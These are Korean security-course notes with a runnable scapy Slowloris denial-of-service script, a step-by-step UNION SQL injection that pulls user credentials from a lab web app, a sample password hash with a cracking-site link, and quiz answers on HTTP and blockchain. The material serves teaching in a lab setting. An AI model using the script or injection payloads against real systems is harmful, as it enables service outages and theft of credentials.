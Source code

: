 2019.12.11.



# IT서비스와 보안

## 1.  네트워크 보안



### - scapy

- 파이썬으로 작성된 패킷 조작 도구
- 패킷 디코딩, 전송, 캡처, 수정 등 다양한 기능을 제공



### - 참고

- ARP Spoofing ⇒ https://myanjini.tistory.com/76
- MTM(Man in The Middle) attack ⇒ https://myanjini.tistory.com/77
- Port Scanning ⇒ https://myanjini.tistory.com/75
- scapy 사용법 ⇒ https://myanjini.tistory.com/78
- scapy를 이용한 3-way handshaking ⇒ https://myanjini.tistory.com/79
- TCP SYN Flooding ⇒ https://myanjini.tistory.com/80



### - Slowloris Attack

- HTTP 요청 헤더와 본문이 개행문자로 구분되는 특징을  이용한 공격
- 헤더의 끝을 나타내는 개행문자를 전달하지 않아 서버가  연결을 유지하도록 하는 공격



- kali#2에서 slowloris.py 파일을 생성

~~~

#! /usr/bin/env python

import sys
import time
from scapy.all import *

def slowloris (target, num) :
    print "start connect > {}".format(target)
    syn = []
    for i in range(num) :
        syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    syn_ack = sr(syn, verbose=0)[0]

    ack = []
    for sa in syn_ack :
        payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
        "Host: {}\r\n".format(target) +\
        "User-Agent: Mozilla/4.0\r\n" +\
        "Content-Length: 42\r\n"

        ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)
    
    answer = sr(ack, verbose=0)[0]
    print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    print "Sending data \"X-a: b\\r\\n\".."

    count = 1
    while True :
        print "{} time sending".format(count)
        ack = []
        for ans in answer :
            ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
        answer = sr(ack, inter=0.5, verbose=0)[0]
        time.sleep(10)
        count += 1

if __name__ == "__main__" :
    if len(sys.argv) < 3 :
        print "Usage: {} <target> <number of connection>".format(sys.argv[0])
        sys.exit(1)
    slowloris(sys.argv[1], int(sys.argv[2]))
~~~



### - 영화조회 서비스 SQL Injection

~~~
[화면]
제목 : man

[전달 ← 요청 파라미터를 통해서 전달]
sqli_1.php?title=man

[사용 → 쿼리문을 만드는데 사용될 것으로 유추]
select * from movies where title = '%man%' 


##1 입력값이 전달 및 사용 과정에서 아무런 조작이 발생하지 않는지 궁금???
[화면]
제목 : man'

[전달 ← 요청 파라미터를 통해서 전달]
sqli_1.php?title=man'

[사용 → 쿼리문을 만드는데 사용될 것으로 유추]
select * from movies where title = '%man'%' 
⇒ Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1
→ 백엔드 DB가 MySQL라는 정보와 화면에서 입력한 값은 그대로 쿼리 생성 및 실행에 사용된다.

##2 정상적인 쿼리가 반환하는 컬럼의 개수를 확인
select * from movies where title = '%man' order by 1 -- %' ← 제목이 man으로 끝나는 영화를 조회해서 첫번째 컬럼으로 정렬

select * from movies where title = '%man' order by 2 -- %'
			:
select * from movies where title = '%man' order by 8 -- %'
⇒ Error: Unknown column '8' in 'order clause'
→ 정상적인 쿼리가 반환하는 컬럼의 개수는 7개이다.

##3 정상적인 쿼리의 실행 결과에 공격자가 원하는 쿼리의 실행 결과를 결합해서 화면에 출력
select * from movies where title = '%man' UNION select 1,2,3,4,5,6,7 -- %'

⇒ 파란색은 정상적인 쿼리(man으로 끝나는 제목의 영화)의 실행결과
⇒ 붉은색은 공격자가 궁금해하는 쿼리의 실행결과
→ 화면 출력을 위해서는 쿼리 실행 결과에서 2, 3, 4, 5번째 컬럼의 정보만 사용

##4 MySQL의 시스템 테이블을 이용해서 사용자 정의 테이블의 정보(이름)을 조회
select * from movies where title = '%man' UNION select 1,table_schema,table_name,4,5,6,7 from information_schema.tables -- %'
→ https://dev.mysql.com/doc/refman/8.0/en/tables-table.html 참조

##5 테이블 이름이 users인 테이블이 가지고 있는 컬럼 정보를 조회
select * from movies where title = '%man' UNION select 1,table_name,column_name,4,5,6,7 from information_schema.columns where table_name = 'users' -- %'
→ https://dev.mysql.com/doc/refman/8.0/en/columns-table.html 참조

##6 users 테이블 id, login, password, email, secret 컬럼의 정보를 조회
select * from movies where title = '%man' UNION select 1,id,login,password,concat(email, " : ", secret),6,7 from users -- %'

##7 패스워드 정보가 안전하게 저장되어 있는지 확인
6885858486f31043e5839c735d99457f045affd0
https://crackstation.net/
~~~

### - 문제 풀이

1.  HTTP 요청 방식 중 PUT은 본문을 필요로 한다.

2. 응답 코드 4XX는  Client Side Error

   - 영구적 리다이렉트되는 경우 도메인 주소가 바뀐다(ex. 회사의 도메인이 바뀜)
   - 임시적 리다이렉트되는 경우 서버 폭주를 우려해서 임시사이트를 제공 할 때(한시적 사용)

3. Content-Length 헤더 값을 크게 주고 본문을 천천히 줌 => RUDY ATTACK

4. GET GET POST POST 

5. 302 moved tmp / 리다이렉트

6. HTTP의  헤더를 조작 슬로로리스 공격

7. HTTP 기본 인증 방식 Base64 인코딩/디코딩

8. HTTP 2xx : 성공

9. HEAD  : 자원의 상태만 요청

10. 정형화되지 않은 자료를 서버로 전달할 때 사용하는 Content-Type : multipart/form-data

11. 블록 생성 독점을 막기위한 도구 : 난이도

12. P2P 네트워크의 악의적 사용자를 막기위한 도구 : 전자서명, 장부공유, 블록해쉬

13. 비트코인의 블록헤더

14. 블록에 포함된 거래의 요약 정보 : 머클루트

15. 퍼블릭 블록체인의 특징 : 마이닝 보수가 필요 함

16. 해쉬의 특징 : 유일성, 단방향성, 충돌회피

17. 블록체인의 특징 : 거래 기록의 작성 시점을 객곽적으로 알 수 있음

18. 블록헤더 중 유일하게 변경 할 수 있는 값 : nonce

19. 작업증명 알고리즘의 에너지 문제 해결 : Pos

20. 머클트리

21. 서명 = 송신자의 개인키 암호화, 송신자의 공개키로 복호화

22. 관리자 그룹 : administrators

23. 3way - Handshaking SYN > SYN+ACK > ACK

24. Linux 권한설정

25. 패스워드 관리규칙

26. Linux shadow 파일

27. 윈도우 시스템 관리자 그룹 net localgroup administrators

28. 보안의 3요소 : 기밀성, 무결성, 가용성

29. 해쉬 = 무결성 보장

30. 지식기반 인증 : 내가 알고 있는것, 패스워드

    소유기반 인증 : 매체, 출입증 카드

    특징기반 인증 : 지문, 홍채, 서체, 정맥